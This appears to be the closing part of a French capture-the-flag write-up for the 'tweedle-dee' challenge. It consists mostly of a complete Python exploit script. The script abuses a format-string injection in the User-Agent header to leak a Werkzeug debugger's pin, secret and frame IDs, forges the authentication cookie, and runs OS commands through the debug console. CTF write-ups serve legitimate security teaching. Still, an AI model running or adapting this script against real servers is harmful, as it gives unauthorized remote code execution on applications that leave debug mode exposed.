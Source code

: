 ![Alt text](./img/meme2.jpg)

#### Exploit final.

L'exploit final se réalise en 4 parties :
  - La récupération de l'id du thread du serveur *(140263224297152) dans l'exemple précédent*
  - La récupération du *secret*, d'une *frame*, et du *pin* directement
  - L'authentification au serveur en forgeant un cookie
  - La RCE via l'exécution du code

```python
import requests
import re
import html
import hashlib
import time

hash_pin = lambda pin: hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]

def render(url,payload):
	r = requests.get(url,headers={"User-Agent":payload}).text
	return html.unescape(re.findall(r'Hello (.*?)</div>',r)[0])

def locate_id(url,):
	res = render(url,r'{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active}')
	return re.findall(r'\(serve_forever\), started daemon (.*?)\)>',res)[0]

def rce(cmd,url,secret,frame,session):
	uri = '%s?__debugger__=yes&cmd=%s&frm=%s&s=%s'%(url,cmd,frame,secret)
	return html.unescape(session.get(uri).text)

url = 'https://tweedle-dee.france-cybersecurity-challenge.fr'

id_thread = locate_id(url)
payload = '{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active[%s]._target.__self__.app.%s}'

pin 	= render(url,payload%(id_thread,'pin'))
secret  = render(url,payload%(id_thread,'secret'))
frames  = render(url,payload%(id_thread,'frames'))
cookie_name = render(url,payload%(id_thread,'pin_cookie_name'))

sess = requests.Session()
sess.cookies.set(cookie_name,f"{int(time.time())}|{hash_pin(pin)}")

r = rce(
	cmd = "__import__('os').popen('cat flag*').read()",
	url = url,
	secret = secret,
	frame = re.findall(r'{([0-9]{15}):',frames)[0],
	session = sess,
)
print(r)
```


[//]: <> (Wrote By Vozec 27/04/2023)